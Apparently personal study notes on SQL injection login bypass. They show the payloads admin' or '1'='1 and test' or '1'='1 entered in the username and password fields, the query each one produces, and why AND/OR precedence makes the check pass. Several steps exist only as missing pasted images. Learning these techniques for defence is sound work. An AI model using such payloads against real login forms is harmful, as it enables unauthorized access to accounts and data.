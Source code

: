 #SQL_Injection

---

- To do an injection using username we use the following syntax:
```sql
admin' or '1'='1
```
which yields the following SQL query:
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```
which returns true since **AND** has higher precedence than **OR**

![[Pasted image 20241028212131.png]]

- However, if we don't know any valid username, we can do an injection using the password field as follows:
```sql
test' or '1'='1
```

which yields the following query:

![[Pasted image 20241028212334.png]]

![[Pasted image 20241028212338.png]]
